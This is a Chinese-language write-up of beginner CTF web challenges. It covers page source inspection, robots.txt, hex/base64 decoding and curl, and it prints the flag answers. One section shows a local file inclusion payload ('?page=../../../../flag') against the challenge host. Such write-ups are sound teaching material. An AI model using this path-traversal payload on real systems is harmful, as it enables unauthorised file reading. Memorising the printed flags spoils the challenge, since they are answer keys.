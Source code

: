 # Web101

## Web-1:source code

解題步驟1:按下鍵盤F12/滑鼠右鍵=>檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-1.png)

解答:

>BreakALLCTF{3xjVYR8dMetWQbwzYsLJ}


## web-2:Robots.txt

解題步驟1:在網址後方打上/robots.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(1).png)

解題步驟2:按下Enter後，出現文字<br>
User-agent: *
Disallow: /images
Disallow: /secret
==>在網址後方打上/secret

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(2).png)
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(3).png)

解題步驟3:點下flag.txt

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(4).png)

解題步驟4:hex to string

>echo 516e4a6c595774425445784456455a374e31463053304979546a5655624846425155563651334a36546b3939 | xxd -r -p

解題步驟5:base64 decode

>echo QnJlYWtBTExDVEZ7N1F0S0IyTjVUbHFBQUV6Q3J6Tk99 | base64 --decode
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-2(5).png)

解答:

>BreakALLCTF{7QtKB2N5TlqAAEzCrzNO}

也可使用線上解碼工具:
>https://codebeautify.org/hex-string-converter<br>
>https://www.base64decode.org/<br>


## Web-3:Curl-1

解題步驟1:在'GO!'圖示上按下滑鼠右鍵檢查

>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(1).png)

解題步驟2:發現網頁將引導至index.php
==>使用curl工具

>curl http://120.114.62.89:2014/index.php
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web-3(2).png)

解答:

>BreakALLCTF{91YODwgPD58gpC4H9AeD}


## web-5:Local File Inclusion

解題步驟1:從最底層的資料夾找起

>http://120.114.62.89:2003/index.php?page=flag

解題步驟2:再往上層資料夾尋找

>http://120.114.62.89:2003/index.php?page=../flag

解題步驟3:最終在第四層資料夾找到

>http://120.114.62.89:2003/index.php?page=../../../../flag
>![image](https://github.com/saho-yu/CTF2018/blob/master/Web/pictures/web%20-5.png)

解答:

>BreakALLCTF{887cs9oKULT0lvtY2bVu} 
